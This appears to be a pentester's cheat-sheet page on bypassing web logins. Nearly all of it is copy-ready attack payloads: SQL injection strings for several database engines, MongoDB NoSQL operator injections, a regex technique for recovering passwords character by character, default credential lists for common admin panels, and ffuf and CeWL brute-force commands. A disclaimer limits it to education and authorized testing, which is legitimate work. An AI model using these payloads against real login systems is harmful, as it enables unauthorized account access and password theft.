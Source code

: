 ```yaml
---
title: WEB LOGIN BYPASS
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


# SQL INJECTION     
```
admin' or '1'='1
```
# Microsoft, Oracle, PostgreSQL
```
admin'--
admin' or 1=1--
admin' or '1'='1'--

admin}" or 1=1--
```
# MySQL
```
admin'-- -
admin'#

admin' or 1=1#
admin' or 1=1-- -

admin' or '1'='1'-- -
admin' or '1'='1'#

admin}" or 1=1-- -
```
# NoSQL Injection
`MONGO`
```
admin' || 1==1//
admin' || 1==1%00
admin' || '1==1
admin' || '1'=='1
```
* Operators

```JS
# $ne: Not equal
username[$ne]=xyz&password[$ne]=xyz

# $regex: Regular expressions
username[$regex]=.*&password[$regex]=.*
username[$regex]=^xyz&password[$regex]=^xyz
username[$regex]=^a.*$&password[$ne]=xyz
username[$regex]=.{6}&password[$ne]=xyz
username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

# $exists: Exists in the database
username[$exists]=true&password[$exists]=true

# $nin: Not include
username[$nin][admin]=admin&password[$ne]=xyz
# If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
username[$nin][]=admin&password[$ne]=xyz
# If more users are found, we can exclude the user.
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

# $gt: Greater than
username[$gt]=s&password[$gt]=s
# $lt: Lower than
username[$lt]=s&password[$lt]=s

# Combinations
username[$ne]=xyz&password[$regex]=.*
username[$exists]=true&password[$ne]=xyz
username[$ne]=xyz&password[$exists]=true
username[$regex]=.*&password[$ne]=xyz
username[$ne]=xyz&password[$regex]=.*
username[$regex]=.{6}&password[$ne]=xyz
```

After finding usernames, we can also obtain the passwords using the “$regex” operator as the following example.

```JS
# Check if the password length is 7 characters.
username=admin&password[$regex]=^.{7}$
# If not, change 7 to 6 (or 8 or something number).
username=admin&password[$regex]=^.{6}$
# If the number of characters turns out to be 6, brute force the character one by one.
username=admin&password[$regex]=^a.....$
username=admin&password[$regex]=^s.....$
username=admin&password[$regex]=^se....$
username=admin&password[$regex]=^sec...$
```
* Operators in Json

If the above payloads not working, try changing to a json format.
We also need to change the value of the Content-Type to “application/json” in the HTTP header.

```js
Content-Type: application/json

{"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
```
# Default Credentials
```
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```
# Wildcard Brute Force
If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.
```
username = *
password = *
```
For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.
```
username=%s*&password=*
# or
username=*&password=%s*
```
My favorite wordlist for it is the seclists:

* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt

# Brute Force Credentials
Before brute forcing, we need wordlists used for it.

* Rockyou : https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz

* SecLists : https://github.com/danielmiessler/SecLists 

* CeWL : https://github.com/digininja/CeWL

Generate the custom wordlist from the target web page.
```
cewl https://vulnerable.com > scraped_words.txt
```
# Ffuf
```js
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```
# REFERENCE
* https://tryhackme.com/room/nosqlinjectiontutorial

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
